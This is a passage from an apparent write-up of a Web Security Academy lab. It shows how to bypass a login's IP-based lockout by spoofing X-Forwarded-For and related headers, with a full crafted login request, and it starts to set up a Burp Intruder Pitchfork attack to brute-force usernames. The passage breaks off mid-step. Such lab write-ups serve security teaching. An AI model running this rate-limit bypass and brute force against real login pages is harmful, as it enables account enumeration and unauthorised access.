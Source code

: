 So it looks like they block our IP Address and we can only send another login request after 30 mins. 

There are some headers that can be used to bypass IP-based protection systems some of them are the following.
```
X-Forwarded-Host
X-Forwarded-For
X-Real-IP
Client-IP
Forwarded-For
Forwarded
Via
```

These are some headers that are used in bypassing IP-based protection systems. By manually or automatically adding that header one by one we got the server accepts the `X-Forwarded-For` Header and also they bypassed the IP-based Protection. So by adding that header we can brute force the username. Now our request looks like the following

```
POST /login HTTP/2
Host: 0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Cookie: session=T2uFGlgC9oNUAQWuXfp9GFgVSg0IPDf2
Content-Length: 722
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff00f1045e59f8c111d5ee001800d8.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Forwarded-For: 192.168.10.1

username=wiener&password=very_long_string_here
```

The header value doesn't be your real IP it just looks like an IP and we can brute-force the username with this. Sent the request to burp intruder because it is easy in that case but other tools can also be used but we should know how to detect the time delay in it.

In the intruder use the `Pitchfork` Attack in Attack type option. and add two positions one for the last octet of IP and one for the username our request should look like this.
